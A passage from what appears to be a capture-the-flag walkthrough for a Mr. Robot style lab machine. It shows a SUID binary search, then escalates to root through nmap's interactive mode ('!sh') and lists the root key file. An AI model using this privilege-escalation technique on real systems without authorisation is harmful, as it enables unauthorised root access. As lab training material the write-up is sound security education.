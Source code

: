 ```terminal
robot@linux:~$ find / -type f -perm -04000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
robot@linux:~$

```
We can use [GTFOBins](https://gtfobins.github.io/) to check for possible vectors, and we see that nmap does not have SUID bit by default. Let's use it to get root on the machine:
```terminal
robot@linux:~$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
# cd /root
# ls
firstboot_done  key-3-of-3.txt
```
Great, and just like that, we have rooted this machine, hope you enjoyed it, see you in the next machine.
